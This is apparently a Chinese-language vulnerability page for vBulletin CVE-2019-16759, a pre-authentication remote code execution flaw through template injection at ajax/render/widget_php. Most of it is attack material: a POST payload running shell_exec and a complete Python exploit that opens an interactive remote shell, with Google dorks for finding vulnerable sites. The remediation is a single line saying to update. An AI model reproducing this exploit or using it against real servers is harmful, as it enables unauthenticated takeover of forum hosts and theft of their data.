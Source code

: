 vbulletin 远程代码执行 （CVE-2019-16759）

描述: vBulletin 是一款强大，灵活并可完全根据自己的需要定制的论坛程序套件。尽管是商业产品，但从市场份额和实际使用量上看，vBulletin还是当今最受欢迎的Web论坛软件包。 该漏洞允许攻击者在不拥有目标论坛账户的情况下，在运行vBulletin的服务器上执行Shell命令，是一个无需身份验证的远程代码执行漏洞。

漏洞详情：

漏洞通过请求ajax/render/widget_php进行模板注入触发代码执行。

![image-20211027191050705](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027191050705.png)

#### 漏洞范围

```undefined
5.0.0 <= vBulletin <=5.5.4
```

poc     直接hackerbarpost

```php
请求
http://url/index.php?routestring=ajax/render/widget_php
post
widgetConfig[code] = echo shell_exec('ls'); exit;
```

![image-20211027191408365](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211027191408365.png)



exp/poc:

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input("vBulletin$ ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params)
          if r.status_code == 200:
               print r.text
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))
```

py 1.py http：//xxx



修复：
更新版本






